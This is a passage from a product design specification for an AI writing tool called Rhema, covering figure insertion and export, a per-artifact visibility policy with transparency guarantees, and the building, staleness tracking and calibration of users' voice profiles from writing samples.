**Iterate** (REQ-VIZ-9): "make it a bar chart", "drop the liberal row", "log scale" — each turn re-runs spec generation with the previous spec as context and creates version n+1; the Versions strip shows thumbnails with the request that produced each; any version restores in one click; type chips are local spec edits at 0 credits; data changes re-run data resolution.

**Insert as a proposal** (REQ-VIZ-10/11/12): a proposal card beside the Page at a stated anchor (after the selection, or the paragraph containing the figure's claims); Accept writes the block in the Rhema Markdown profile as one transaction; Reject keeps the asset in working figures. Figure numbers are computed from document order, never typed. Inserting into a frozen vN forks v(N+1) and marks the figure's claims pending verification. Rejected: Q-8's literal "auto-inserted at the right spot" — a silent write into a human-editable document breaks REQ-WF-2 and would insert into a version a review may be reading; the proposal lands at the right spot and the user's Accept is one click (departure D10, §16.1).

```markdown

*Figure 2. Correlation of party-family GAL–TAN position with the harms index.[^12]*
<!-- rhema:figure id=fig_01J… version=2 -->
[^12]: Source: CHES 2019 (chesdata.eu, accessed 2026-08-27), authors' calculation from `data.csv`.
```

**Review fact-checks figures** (REQ-VIZ-13/14): Review's claim inventory includes each figure block as Tier-1 claims (values, labels, axis ranges, caption comparisons) sourced from `provenance.json` and `data.csv`; verification re-fetches the source and recomputes from the data; the verdict propagates to `provenance.verification` and a badge on the figure; a figure with no provenance is inventoried *Unsupported* by construction. The claims table groups figure-derived claims under the figure's number.

**Export** (REQ-VIZ-15): SVG for HTML/PDF/LaTeX/Typst; PNG@2x for docx/rtf/Google Docs; native tables everywhere; `.txt` keeps alt + caption + source; alt maps to the format's alt field; the source line exports as a footnote where footnotes exist; `[unverified data]` becomes a caption note until resolved; the `.md` zip carries spec + data + provenance so the figure is reproducible outside Rhema; dark renders never export.

**Cost** (REQ-VIZ-16): first render 5–15 credits, iterations 2–8, chip edits 0; figures are permitted on trial (export follows plan rules).

### 7.6 Empty states and the scratch path

The scratch IDE opens with a quiet Page placeholder ("Your outline will appear here once you promote it from the chat. Nothing is drafted until you ask."), the Desk on **Chat** with four chips (*Research a question · I have a thesis · Interview me · Paste my notes*), and one Timeline card (*Next: promote an outline from chat — free until you research*) (REQ-CHAT-29). The first-five-minutes script on the trial (Writer-class features, Standard notch, spending from the 150-credit pocket): create project (0 cr) → *I have a thesis*, two sentences (2 cr) → "Is the harms account really new? check" (14 cr, within budget) → "Map the critics too" exceeds the per-turn budget → plan card → *Run as background research* (a Research run, ≈ 25 cr, or *Do the first step only*, 22 cr) → *Promote to outline* → run (30 cr) → Approve outline card, one section title edited in the outline editor → Outline v1 written; next-step card *Draft the first section (preview, ≈ 60 cr)* then *Draft v1 ≈ 400 cr (Base) · 940 (Balanced)*. **Total ≈ 70 credits** from the pocket, nothing drafted, everything cited was fetched; the outline approval is the first Approval encountered and is the activation event for the scratch cohort (REQ-CHAT-30).

---

## 8. Artifact visibility policy

### 8.1 Levels and reason classes

Visibility is a function of artifact **kind**, computed in code from one policy table, never stored per row as opinion (REQ-VIS-1; a contract test enumerates every `ArtifactKind`). Levels may be narrowed per project (a share link exposing only SR kinds) but never widened (REQ-VIS-2).

| Level | Meaning | Editability |
|---|---|---|
| **SE** Surfaced-editable | first-class object with its own view; the user can change it | live doc or structured form |
| **SR** Surfaced-read-only | first-class, rendered (often as data); intent enters through guidance, dispositions, or corrections stored separately | none in place |
| **I** Inspectable-on-demand | not in the default tree; reachable via provenance links or "Show working"; read-only | none |
| **H** Hidden | exists only in the harness mirror and object store; surfaces at most as counts, hashes, or URLs | none |

Reason classes: **UX** simplicity ("would a writer act on this?"), **IB** integrity boundary ("does reading this change what a future agent should know?"), **SS** secret sauce ("would a competitor copy this file?"), **IM** immutability ("is this what a later round reads as the past?"). The founding prompt asked whether hiding is for simplicity or secret sauce; the answer is both, made explicit per row.

### 8.2 The per-artifact table

Producers: H human, A Drafter, E Editor, B persona builder, S system, C Assistant. The tables below are the closed list: 39 source artifact kinds (across rows 1–39; two rows dropped, several carrying two kinds), 10 Rhema-addition kinds (9 rows; R4 carries two; R9 is pre-registered for 1.x) and 14 workflow additions yield the **63 `ArtifactKind` values** published in §11.3; the contract test of REQ-VIS-1 asserts that enum, the policy table and this section's rows are the same set (REQ-SPEC-14; review 11 #4). Counts by level are computed by that test, never hand-maintained here [design/3 §2.2].

**Shared record**

| # | Artifact | Kind | Level | Reason | Notes |
|---|---|---|---|---|---|
| 1 | `manifest.md` | *(derived)* | SR | UX, IM | Rendered as the round timeline from tables; never a file the user edits; regenerated into the mirror (REQ-VIS-6). Its "next-round agenda" becomes `source: 'agenda'` revision-obligation rows (§11.7; REQ-OBJ-7). |
| 2 | `drafts/vN.md` | `draft` | SE → SR when frozen | IM | Live Yjs doc while working; freezes on first run read, dossier reference, promote, or export (REQ-VIS-4). |
| 3 | `assets/figures/*`, companion docs | `figure`, `companion_doc` | SE | — | Figures inserted as proposals (§7.5); `assets/` readable by every seat, written by Drafter-seat runs (ledger F13). |
| 4 | `vN-drafting-note.md` | `drafting_note` | SR | IM | First thing shown after a Draft run; sections rendered as cards. |
| 5 | `editors-letter.md` | `editors_letter` | SR | IM | The review hub. |
| 6 | `00-piece-brief.md` | `piece_brief` | I (SR at Confirm scope) | UX | "What the Editor thought you were writing." |
| 7 | `01-claim-ledger.md` (+ `01-claim-ledger.json` sidecar) | `claim_ledger` | SR as data | IM | Rows come from the structured sidecar (§11.1): text, tier, `ClaimVerdict` (six values; seven under Memo), URL, accessed-at; the transparency-floor artifact. Fact-check's ledger is the same kind. |
| 8 | `02-discourse-report.md` | `discourse_report` | SR | IM | Originality verdict, counterargument, reception forecast. |
| 9 | `03-argument-notes.md`, `04-craft-notes.md` | `argument_notes`, `craft_notes` | I | UX | Working notes folded into the letter; kept because the response ledger cites them. |
| 10 | `05-second-read.md` | `second_read` | SR | IM | The independence trust feature; reconciliation shows what the Editor rejected. |
| 11 | `vN-response.md` | `response_letter` | SR; flags → Decisions inbox | IM | Escalations become `decision_request` rows. |

**Drafter namespace (`agents/author/*`) — the user's own notebook**

| # | Artifact | Kind | Level | Reason | Notes |
|---|---|---|---|---|---|
| 12 | `outline/*` | `outline` | SE (versioned) | — | User-supplied or promoted from chat; edits after v1 make outline v2 (REQ-DATA-23). |
| 13 | `drafting/vN/00-commissioning-brief.md` | `commissioning_brief` | I; SR at Approve plan | UX | |
| 14 | `01-voice-brief.md` | `voice_brief` | I | UX | Which voice member and targets were bound. |
| 15 | `02-structure-plan.md` | `structure_plan` | SR at the Approval (structured fields editable → guidance); I after | UX, IM | The user edits decisions, not plan prose (§6.4); a re-plan writes plan v2 "revised on operator guidance". |
| 16 | `03-claim-ledger.md` (Drafter's) | `claim_ledger` (namespace author) | I as data | UX | Surfaced in the editor when the user asks "was this verified?". |
| 17 | `04-draft-ledger.md` | `draft_ledger` | I (progress rows) / H (deviation log) | UX; SS | Progress rows drive the live run card. |
| 18 | `05-consolidation-notes.md` | `consolidation_notes` | H | UX | Process residue. |
| 19 | `06-fidelity-audit.md` | `fidelity_audit` | I | UX | "Checks passed" chip on the run card. |
| 20 | `research/index.md` + `sources/*.md` | `source_note` (author) | **SR** as a source list (titles, URLs, dates); note bodies open on click | UX | Promoted from I in v0.2 so the Browser's default *Research* section obeys REQ-VIS-3 (review 11 #10). Never secret: it is the user's own library. |
| 21 | `ledgers/vN-response-ledger.md` | `response_ledger` | SR via the disposition UI | IM | Parsed into finding + disposition rows; frozen at delivery (DB-enforced). |
| 22 | `voice-charter.md` | `voice_charter` | I + "Add guidance" | UX, IB | Readable, never edited in place: a hand-edited charter loses the protected-strengths provenance the skill seeds from the Editor's letter; guidance is the supported channel (E3). |

**Editor namespace (`agents/editor/*`) — the boundary's other half**

| # | Artifact | Kind | Level | Reason | Notes |
|---|---|---|---|---|---|
| 23 | `research/index.md` + `sources/*.md` | `source_note` (editor) | **H**; URLs + accessed-at → SR in the claim ledger | IB | Deliberations stay hidden; the fetch log exposes every URL (E6) without exposing notes. |
| 24 | `notes.md` | — | dropped | — | Never used in any real project. |

**Voice library**

| # | Artifact | Kind | Level | Reason | Notes |
|---|---|---|---|---|---|
| 25 | `PERSONA.md` | `persona_seed` (user prose) + `persona_builder_note` (agent-appended) | SE / SR | —; IM | The mixed-authorship file is split; the builder's note is a separate SR object superseded per build. |
| 26 | `docs/*` | `sample` | SE (samples manager) | — | Include/omit per item; never agent-written. |
| 27 | `profile/index.md` | `profile_index` | SR as the Overview | UX | Staleness is computed, never read from prose. |
| 28 | `profile/voice-print.md` | `voice_print` | I (Advanced), Method column hidden, ranges beside means | SS, UX | The numbers are the user's; the *how* is the IP. Editor seat never loads it. |
| 29 | `profile/structure-repertoire.md` | `structure_repertoire` | SR (collapsed) | UX | Feeds the Registers field. |
| 30 | `profile/lexicon.md` | `lexicon` | I (Advanced) | SS, UX | |
| 31 | `profile/exemplars.md` | `exemplars` | SR | — | ≤12 quotes ≤40 words; "what Rhema learned". |
| 32 | `profile/positions.md` | `positions` | SR | — | "What you've argued"; open tensions shown. |
| 33 | `profile/continuity.md` | `continuity` | SR | — | |
| 34 | `profile/audience-and-venue.md` | `audience_venue` | SR (collapsed) | UX | |
| 35 | `profile/calibration.md` | `calibration_report` | SR (first tab) | — | The honesty artifact; hold-out identity becomes visible here, after calibration. |
| 36 | `profile/provenance.md` | `profile_provenance` | I; rendered as the staleness panel | UX | Data, not prose. |
| 37 | `profile/corpus/*.md`, `HOLDOUT-*.md` | `corpus_note`, `holdout_note` | **H** | IB, SS | Hold-out identity hidden from every consumer and the UI until calibration; corpus notes are the distillation the "notes not corpora" rule exists for. |
| 38 | Composite extras (`register-map.md`, `shared-lexicon.md`) | `register_map`, `shared_lexicon` | SR / I | — | Register override is the `register` run input. |
| 39 | Legacy flat `<id>.md` | — | dropped | — | Import path only. |

**Rhema additions**

| # | Artifact | Kind | Level | Notes |
|---|---|---|---|---|
| R1 | Run transcript (SDK JSONL → S3) | `run_transcript` | **H** | Contains prompts, protocol text, private content; replay reads the event stream and artifact diffs, never the transcript; retained 30 days (ledger E7). |
| R2 | Access report per run | `access_report` | SR as a trust chip | "Editor read 214 paths, 0 denied; never touched `agents/author/`." |
| R3 | Fetch log per run | `fetch_log` | SR as source cards | Every search/fetch with URL, status, retrieved-at; joins to `claim.url` for cited ⇒ fetched. |
| R4 | Run report + walkthrough | `run_report`, `walkthrough` | SR | |
| R5 | Chat session | `chat_session` | SE (user turns) / SR (assistant turns) | `agents/assistant/` namespace. |
| R6 | Provenance sidecar (block-level at MVP; spans 1.x) | `provenance_map` | SR (overlay toggle 1.x; export appendix 1.x) | |
| R7 | AI-use statement | `ai_use_statement` | SR, exportable | Generated from run rows (1.x). |
| R8 | Chat / Research-run source notes | `research_note` | SR under *Research → Chat sources* | `agents/assistant/research/`; produced by Assistant turns and `research_burst` runs; never mounted into Drafter/Editor runs. |
| R9 | Rendered preference profile `preferences.md` (capture-only at MVP; renderer 1.x) | `preference_profile` | **SR** (reasons UX, IB) | Pre-registered v0.3 final (design/19 F-6) so the REQ-SPEC-14 contract test covers it before the 1.x renderer ships; surfaces in Settings → Data ("What Rhema has learned", per-signal retire), never edited in place; mounted only into Drafter-/Assistant-seat runs — never Editor-seat or independence contexts (REQ-OBJ-9/10; §11.5, §12.6). |

**Workflow additions** (review 11 #4) — one row per artifact kind the §6.2 workflows produce beyond the source inventory:

| # | Artifact | Kind | Level | Producer | Notes |
|---|---|---|---|---|---|
| W1 | Cut list (`cut-to-length`) | `cut_list` | SR at Approve cut list; I after (restorable) | A | 1.x. |
| W2 | Field map (`discourse-map`) | `field_map` | SR | A | 1.x; the Editor re-derives independently. |
| W3 | Open ground + originality verdict | `open_ground` | SR at Choose a thesis | A | 1.x. |
| W4 | Steelman essay | `steelman_essay` | SR | E | 1.x; neutral register. |
| W5 | Vulnerability map | `vulnerability_map` | SR (collapsed) | E | 1.x. |
| W6 | Blind adjudication | `adjudication` | I | E | 1.x; reasons, never a score. |
| W7 | Convergence report | `convergence_report` | SR | S | 1.x. |
| W8 | Title candidates | `title_candidates` | SR (proposal) | A | 1.x. |
| W9 | Abstract & keywords | `abstract_keywords` | SR (proposal; traceable per sentence) | A | 1.x. |
| W10 | Reverse outline + diff | `reverse_outline` | SR | A | 1.x; also produced inside Review as I. |
| W11 | Line-edit suggestion set | `suggestion_set` | SR (proposals; consumed by suggestion marks) | A | 1.x. |
| W12 | Pattern note ("3 em-dashes over your ration") | `pattern_note` | SR | A | 1.x. |
| W13 | Working figures (not yet inserted) | `figure` | SE (Assets → Working figures) | A/C | MVP; the same kind as inserted figures with `insertedInDraftId = null`. |
| W14 | Guidance record (rendered from `guidance` rows) | `guidance_record` | SR (settings → Standing guidance; run sheet; consuming phase) | H | MVP; the rendered form of the `Guidance` object, never a file the user edits. |
| W15 | Structured-output sidecars (`*.json`, §11.1) | `sidecar` | H (parsed into rows; never rendered) | A/E/B | MVP; the machine-readable twin of a markdown artifact. |

(`outline` v2, Fact-check's `claim_ledger`, Research's `research_note` and Outline's `outline` are existing kinds. 39 + 10 + 14 = 63 — `manifest` is derived and has no kind; `preference_profile` counts now though its rendered file ships 1.x.)

**REQ-VIS-3 (amended).** The Browser's default tree shows exactly the SE and SR kinds in typed sections (the *Research* section lists `source_note` and `research_note` as SR lists); I kinds are reachable only through provenance links and "Show working"; H kinds have no route. **AC:** snapshot test of the tree for the three seeded real projects; the snapshot contains no I- or H-kind row.

### 8.3 Edit rules, private memory, and profile corrections

- `draft` is editable only while `state=working`; freeze is one-way (REQ-VIS-4). Every correspondence kind is write-once at delivery; the API has no update endpoint for their content, only for annotations stored in separate tables (REQ-VIS-5).
- **Private memory (E3):** Drafter namespace inspectable by any project member; no principal can read Editor-namespace content via the API; the only Editor projection is the fetch log (REQ-VIS-7). Rejected: hiding both namespaces (the outline, research library and response ledger are the user's own work product); exposing both (an author who reads the Editor's undelivered doubts writes the next response against them, not the letter); letting the user edit the charter.
- **Voice profile corrections (E4):** derived profile kinds have `editMode: none`. Two correction channels only: edit the seed (bumps `seed_hash`); or *Correct this in your description* on any profile statement, which inserts a quoted prompt into the seed editor and records a `profile_correction` row the next refresh consumes, rendering inline as "Corrected by you on …" until then (REQ-VIS-8; REQ-PERSONA-7).

### 8.4 Secret sauce and the transparency floor

**Never shown as text (SS):** `SKILL.md` bodies and `references/*.md` (verification protocol, rubric with entailment caps, prose standards, provenance rules, calibration protocol, corpus-note template, voice-print method); prompts and subagent definitions; hazard-word lists and signature-move rations inside the voice print; the `ClaimVerdict` vocabulary's *decision rules* (the labels are outputs and are shown); disposition taxonomy rationale; phase→artifact manifest; run transcripts. Protocol variants appear as names and toggles with credit deltas, never rubric text. CI greps built client assets and the OpenAPI document for protocol markers (REQ-ARCH-33).

**Always shown (E6, the floor):**

| Floor item | Source of truth | Surface |
|---|---|---|
| Every source actually fetched (URL, title, retrieved-at, status) | `fetch_log` from the hook layer | source cards; claim table links |
| Every claim verdict with URL and accessed date; unverified claims marked | `claim` rows | claim table; anchored chips; export appendix |
| Rubric scores per dimension (no aggregate) | `review.rubric` | letter header |
| Phases run / opted out | `run.config`, `step` rows | run card; letter header |
| Model tier and provider per run | `run.model_profile` | run card; usage |
| Boundary attestation: what was mounted per seat (hydration manifest), what left the sandbox (proxy log), subagent input scoping; in-container denials as a secondary "attempts" count | `access_report` (server-side facts first; §12.6) | trust chip on every dossier |
| Voice member and profile snapshot used; staleness at run time | `run.persona_profile_id`, `voice_brief` | drafting-note header; voice pill |
| Provenance for the current draft (block-level at MVP; span 1.x — the floor never promises above what ships) | `provenance_map` | block-level Authorship overlay (View menu, Advanced); block-level provenance appendix at export, off by default, one toggle, granularity labeled honestly ("blocks edited by the author after drafting are marked *mixed*") — REQ-POS-7/8 |
| AI-use statement | generated from `run` rows | export dialog; project settings |

**REQ-VIS-9 (cited ⇒ fetched; amended v0.3).** A delivered claim ledger whose `url` does not appear in the run's fetch log — the **proxy's** request log, which the sandbox cannot write (§12.6) — fails delivery validation; the run enters `failed(validation)` with the artifact retained as partial. From v0.3 the rule widens to the whole evidence set: **every `claim.sources[].url`** must appear in the proxy fetch log or delivery fails (REQ-OBJ-18). **REQ-VIS-10.** The AI-use statement is generated (template + run facts: workflows, model tiers, dates, phases, approvals, human-revision versions); the user may append but not remove generated sentences. It ships at **MVP** (v0.3, matrix row 39), implemented as per-protocol templates over the REQ-GENRE-5 generator (REQ-POS-6); if obligations exist at export, the statement gains one generated sentence counting them (§11.7). **REQ-VIS-11.** Production telemetry never carries prompt or tool content; support access to transcripts is logged and time-limited.

---
## 9. Voices (personas) and writing-sample ingestion

### 9.1 Framing and the Voices library

A voice is a **run-bearing object**: built by an expensive run, therefore a *dated observation*. Every surface lets the user see what the profile was built from, what has changed since, and what catching up would cost — never blocking (T5). Nothing in the profile is a secret *from* the user; hiding is for simplicity, hold-out integrity, and method IP.

`Voices` is a first-level workspace destination (`/app/voices`). The list has three fixed groups (REQ-PERSONA-1): **Your voices** (editable, buildable), **House styles** (platform-provided, read-only, forkable; e.g. Google developer docs (CC-BY 4.0), Diátaxis, Op-ed page (US national dailies); refreshed on the same four-input model on a schedule; 1.x), and **Shared with you** (Team; shown only when non-empty). Cards show name and byline, the status pill, sample count and source summary, projects using it and last-built date — never credits (that is the detail page's Runs tab). Rejected: a flat list with a Type filter (house styles would pollute "recently used"); grouping by Mode (Q-11 makes Mode metadata; a header would make it look like policy).

Empty state: "Your writing has a voice. Teach Rhema yours. Link a Substack or upload a few pieces you've written; Rhema measures how you build sentences, sections, and arguments and holds every draft to it." — the honest limit ("measures … holds drafts to it"), never "writes like you".

### 9.2 Creating a voice; Quick Voice and Full Profile

One sheet, three optional sections, only the name required (REQ-PERSONA-2):

```
┌ New voice ────────────────────────────────────────────────────────────────────┐
│ Name  [ S. J. Sebastian — Substack ]   Byline (optional) [        ]             │
│ 1 · Describe it (optional)   ┌ Philosophy and the history of ideas… Never: … ┐ │
│   Leave this blank and Rhema drafts one from your samples for you to correct.   │
│ 2 · Add writing samples (optional)                                              │
│   [ Link a publication ▾ ]  [ Upload files ]  [ Paste text ]  [ Add a URL ]     │
│   ┌ Drop .docx .pdf .md .txt .rtf .odt .epub .html here ────────────────────┐   │
│ 3 · How much to build now                                                       │
│   (•) Quick Voice        ≈ 90 credits · a few minutes · untested                │
│   ( ) Full Profile       ≈ 620–1,450 credits · 20–60 min · calibrated           │
│   ( ) Just save the description — build later                                   │
│ This voice is  [ my own writing ▾ ]                                             │
│ Build voices only from writing you have the right to use; Rhema must not be     │
│ used to pass generated text off as a real person's own. Terms →                 │
│                                              [ Cancel ]  [ Create and build ]   │
└─────────────────────────────────────────────────────────────────────────────────┘
```

1. A build needs at least one of description or samples; a bare seed is used as-is. Adding samples in the sheet runs discovery and ingestion only (free except PDF reconstruction), with live counts ("10 posts found · 26,100 words · 2 paywalled").
2. The tier radio re-estimates within 500 ms of any sample change (REQ-PERSONA-3); Quick Voice needs ≥1 sample; Full Profile needs ≥4 (one hold-out; two at ≥10).
3. `Create and build` creates the voice (`never-built`), attaches samples, and starts a `profile_voice` run (`WorkflowKey`, §11.3) with `tier ∈ {quick, full}`; the user lands on the detail page with the run card streaming.
4. A blank description is agent-drafted during the build and shown marked *Drafted by Rhema — correct it* until the user edits it (`seed_authored_by` flips on first edit) (REQ-PERSONA-4).
5. Mode (`my own writing` / `a house style` / `another writer, with permission` / `for study`) is metadata only, default self; the AUP/impersonation notice is one line of body text with a Terms link, shown at creation and on Mode change only (REQ-PERSONA-27; Q-11).
6. Trial/Free: one voice, Quick Voice only, Base model; the Full Profile radio shows a lock and "Available on Writer" (REQ-PERSONA-5).

| | Quick Voice | Full Profile |
|---|---|---|
| Reads | ≤3 samples, ≤2,000 words each (truncated with a badge) | census of all attached samples; ≤12 read closely by default (adjustable at Approve sample) |
| Runs | seed (agent-drafted if blank) + mini voice print; no census, no hold-out, no positions/continuity | the six phases |
| Produces | seed · exemplars · lexicon · low-confidence voice print | full profile + calibration report |
| Pill after build | **Untested voice** (neutral tone — it is a fact about the tier, not a nag; review 12 #20) | **Voice profile current** |
| Estimate | ≈60–150 credits on Base (`40 + 0.012 × words`; ×2.2 Balanced, ×4.5 Frontier) | ≈310 / 760 / 1,510 credits at 50k words by model tier |
| Time | minutes | 20–60 min (close-reads fan out) |

Upgrade is monotone: Quick Voice's corpus notes are reused by Full Profile (`refresh_voice` with `scope: full_from_quick`).

### 9.3 Staleness: one pill, eight computed states, a diff-of-inputs panel

Stored facts per profile snapshot: `built_at`, `seed_hash`, `sample_set {sample_id → content_sha256}`, `corpus_words_at_build`, `calibration_status ∈ {tested, untested, tested-badly-off}`, `tier`. Current facts: `seed_hash`, included samples with hashes, `corpus_words`, `run_in_progress?`. **Seed hash** = `sha256(NFC(trim(description)) ‖ byline ‖ registers)`; it excludes Mode, the corpus pointer, and the agent-authored build note (ledger J9). Staleness is computed at read time; no "stale" flag is ever persisted (REQ-PERSONA-13; REQ-DATA-30).

| # | State | Condition (first match wins) | Pill | Primary action (user-facing) | Class |
|---|---|---|---|---|---|
| 1 | `never-built` | no snapshot | **No voice profile** | Build (Quick / Full) | C2–C4 |
| 2 | `building` | run in progress | **Building · phase 3 of 6** | Open run | — |
| 3 | `seed-changed` | seed hash differs | **Description changed** | Update voice | C2 |
| 4 | `samples-changed` | set difference non-empty or any hash differs (above the 25% growth rule; below it, an informational "3 new samples not yet in profile") | **N samples changed** | Update voice | C2–C3 |
| 5 | `aged` | > 180 days or corpus grew > 25% | **Profile from Aug 20 · your samples grew a lot** | Update voice | C2–C3 |
| 6 | `unfalsified` | untested | **Untested voice** (neutral tone; never counted as stale by the Inbox or the weekly digest) | Test this voice | C2 |
| 7 | `badly-off` | tested-badly-off | **Tested — badly off** | Rebuild everything | C4 |
| 8 | `fresh` | none of the above | **Voice profile current** | — | — |

The pill renders byte-identically in the library, the detail header, the project chip, and the run sheet from one function over one snapshot (REQ-PERSONA-14). **AC-P-A:** a property test renders the pill for every state × surface pair from one fixture snapshot and asserts identical strings and tones. Clicking it opens a popover listing all four facts with concrete deltas in plain words — no hashes, no "25% rule" (review 12 #18) — and **one verb**, *Update voice*, that runs the cheapest sufficient action and says in one sentence what it will do (REQ-PERSONA-15 amended; REQ-SPEC-27):

```
┌ ● 2 samples changed ─────────────────────────────────────────────────────────┐
│ Since the profile was built (Aug 20):                                        │
│   Description        unchanged                                               │
│   Samples            +1 added  "The Constitution of Reason" (10,350 w)       │
│                      1 changed "After Bureaucracy" (body edited Aug 25)      │
│   Your samples       26,134 → 36,484 words — grew a lot since Aug 20         │
│   Age                7 days                                                  │
│   Tested             Aug 20 · 10 of 14 measures within one band             │
│ The profile is still usable. Drafts made now will note it was built from     │
│ an older sample set.                                                          │
│ [ Update voice — reads your 2 new pieces and re-tests the profile ≈ 310 cr · ~12 min ]│
│ Rebuild everything ≈ 1,510 cr · Open samples                                  │
└──────────────────────────────────────────────────────────────────────────────┘
```

**REQ-SPEC-27 (one verb, many scopes).** *Update voice* maps to the cheapest sufficient scope below; the scope names live in Advanced, telemetry and the Runs tab, never on the pill or popover. `WorkflowKey` values (§11.3) are the only run-kind names used in code, telemetry and the Runs tab filter (review 11 #17):

| Scope chosen by Update voice | `WorkflowKey` (+ `scope`) | What runs | Reuses |
|---|---|---|---|
| description changed | `refresh_voice` `scope: synth` | phases 2–5 over existing corpus notes; recalibrate if a hold-out exists | all corpus notes (≈15–25% of a full build) |
| samples changed / aged | `refresh_voice` `scope: delta` | census delta → close-read new/changed pieces only → phases 2–5 → calibrate on the newest unread piece | unchanged corpus notes |
| untested (*Test this voice*) | `calibrate_voice` | phase 4 alone | everything; needs ≥1 included unread piece |
| badly off (*Rebuild everything*, also the secondary link everywhere) | `profile_voice` | all six phases | nothing |
| Quick → Full (*Upgrade to Full Profile*, on the detail page) | `refresh_voice` `scope: full_from_quick` | census → Approve sample → close-read all un-noted pieces → phases 2–5 → calibrate | Quick Voice's notes |

Partial refresh is cheap because corpus notes are persisted immutable per content hash; a refresh for one changed 1,500-word piece costs < 30% of a full build (REQ-PERSONA-16). A non-fresh voice never blocks a run: the run sheet shows the voice line with its pill and an optional *Update voice first (≈310 cr)* that chains the runs; the delivered drafting note records the profile date (REQ-PERSONA-17). House-style voices show the same pill, platform-maintained (REQ-PERSONA-19). A failed build returns the voice to its previous state; the profile is replaced atomically at package time.



**Project-level states** (REQ-PERSONA-18; ledger D26): the project header chip compares the *project's* profile snapshot with the voice's current one — `newer-profile-available` ("Newer profile available (Aug 27)" → *Adopt refreshed profile*), `voice-stale` (the voice's own pill → refresh then adopt), or *Voice current*.

### 9.4 The voice detail page

Tabs: **Overview · Description · Samples (N) · Profile · Runs**, with the pill and *Use in project ▾* in the header.

**Overview** (REQ-PERSONA-10): the hub paragraph from `profile/index.md`; the status card (built date, pieces read, hold-outs tested, refresh due); the calibration summary framed as **capability, not verdict** ("Trust it for: how your sentences sound, how you shape a piece (10 of 14 measures within one band). Don't trust it for: what you'd argue." — same facts, no "wrong"; review 12 #19); projects using this voice with each project's profile-snapshot date; and *Things Rhema asked you to decide* — the build note's decisions as a persistent checklist that deep-links into the Description tab.

**Description — the seed editor.** The seed is the one human-authored, authoritative artifact: a plain-Markdown editor with Byline, Mode, and **Registers** (free-text tags suggested from the structure repertoire; part of the seed hash because they change routing) above it and the read-only *Notes from the last build* card below it (one per build, superseded, stored as `persona_build_notes`; the harness mirror re-renders seed + latest note into `PERSONA.md` at run start). Autosave; on save the hash is recomputed and the pill changes live to *Description changed* with the priced *Update voice* action. *Correct this in your description* deep-links from the Profile tab insert a quoted observation as a blockquote with a prompt line — the **only** correction path (REQ-PERSONA-7).

**Profile — the viewer** (REQ-PERSONA-6/8/9). Sections in a fixed order chosen for trust: **Calibration report** first (prediction vs real opening side by side; measured comparison table "10 of 14 within one band"; corrections made; blind-check reasons — for Quick Voices an empty state with "[Test this voice ≈ 120 credits] — needs 4+ samples") → Exemplars → Positions & open tensions → Continuity → Structure (collapsed) → Audience & venue (collapsed) → *(Advanced)* Voice measures (read-only, Method column hidden, per-piece ranges beside corpus means, rations and the anti-signature list shown because drafting is held to them) → Lexicon. Corpus notes, provenance-as-file, hub-as-file, pre-calibration hold-out identity, and measurement method are not user-facing. No derived section is editable. **AC-P-C:** the profile viewer renders every derived kind with `editMode: none`; an API write to any derived profile artifact returns 405; the only mutation path from the viewer is a `profile_correction` row.

```
┌ Calibration report · tested Aug 20 on 2 held-out pieces ──────────────────────┐
│ Trust it for how a sentence should sound and how a piece is shaped             │
│   (10 of 14 measures within one band).                                         │
│ Don't trust it to predict what you would argue.                                │
│ ┌ Prediction (written before reading) ─┐ ┌ The real opening ──────────────────┐│
│ │ The reaction to artificial …          │ │ (first 520 words of the held-out …)││
│ └───────────────────────────────────────┘ └────────────────────────────────────┘│
│ Measured, side by side                                     10 / 14 within one band│
│  Feature                 Target   Prediction   Real   Verdict                   │
│  Sentence median         15.5     12           16     ran short                 │
│  Em dash / 1k            2.4      0.0          6.4    under-produced badly       │
│ Corrections made to the profile (3) ▸   Blind check (reasons quoted) ▸          │
└─────────────────────────────────────────────────────────────────────────────────┘
```

**Runs** (REQ-PERSONA-11/12): the platform run-list component filtered to this voice (`WorkflowKey` ∈ `profile_voice`, `refresh_voice{scope}`, `calibrate_voice`, `compose_voice`, `reseed_charter`), per-run credits, duration, phase breakdown, samples used, what changed; a per-voice spend total; tokens behind Advanced. The **Approve sample** card (24 h then proceed within the consented cap — §6.4) shows counts, exclusions, the hold-out line in plain words ("We'll keep 2 pieces aside (Feb 2024, Jul 2025) to test the profile against writing it hasn't seen" — titles hidden until calibration; review 12 #21), the estimate and cap, and three knobs (sample cap, calibration on/off with the skill's own warning, model tier); adjusting samples is the same include/omit UI, re-estimated live.

### 9.5 Samples: the connection-and-items model

Samples are `Connection → DiscoveredItem → Sample(version)`; uploads and pastes are connections without discovery (REQ-INGEST-1). The Samples tab has Sources (connections) left and Items right with a corpus summary line and *Re-sync all* / *+ Add ▾*.

```
┌ Samples ─ 10 included · 26,134 words · 2 paywalled (omitted) · 1 unreadable ─ [Re-sync all] [+ Add ▾] ┐
│ SOURCES                 │ ITEMS                                    Filter: All ▾   Sort: Date ▾ │
│ ▸ sjsebastian.substack  │ ☑ The Constitution of Reason        Aug 6   10,350 w  ● clean         │
│   Linked · synced 2h ago│ ☑ What the Model Cannot Give Itself Jul 17   2,814 w  ◐ reconstructed ⓘ│
│   11 found · 10 incl.   │ ☐ Distinction After the Human       Feb 20   1,094 w  ● clean  ★ held out│
│   [Re-sync] [Settings]  │ ☐ Coming soon                       May '22      0 w  ○ empty  skipped │
│ ▸ Uploads  6 files      │ ─ Uploads ────────────────────────────────────────────────────────────  │
│ ▸ Pasted text  1 item   │ ☑ kant-studien-manuscript.pdf       —        9,800 w  ◐ reconstructed ⓘ│
│ [+ Link publication]    │ ☐ seminar-paper-2019.pdf            —          —      ✕ unreadable ⓘ  │
│ [+ Upload files] …      │ Changed since profile: +1 added, 1 changed → pill "2 samples changed"   │
└─────────────────────────┴──────────────────────────────────────────────────────────────────────────┘
```

| Provider | Handle | Discovery | Bodies | Change key | Paid/private | Phase |
|---|---|---|---|---|---|---|
| Substack (public) | publication URL | `/api/v1/archive` | `/api/v1/posts/{slug}` `body_html`; `/feed` fallback | `updated_at` → body hash | `audience ≠ everyone` → **Paywalled — import your export** (never cookies) | MVP |
| Substack export zip | file | `posts.csv` | `posts/<id>.<slug>.html` | file hash | the only lossless path for paid posts | MVP |
| Medium / export zip | `@user` or URL / file | RSS (recent window) / `posts/*.html` | `content:encoded` | `guid` + body hash | export zip | 1.x |
| Ghost | site URL + Content API key | Content API | `html` | `updated_at` | private shown as private | 1.x |
| WordPress | site URL | `/wp-json/wp/v2/posts` | `content.rendered` | `modified` | API disabled → error with instructions | 1.x |
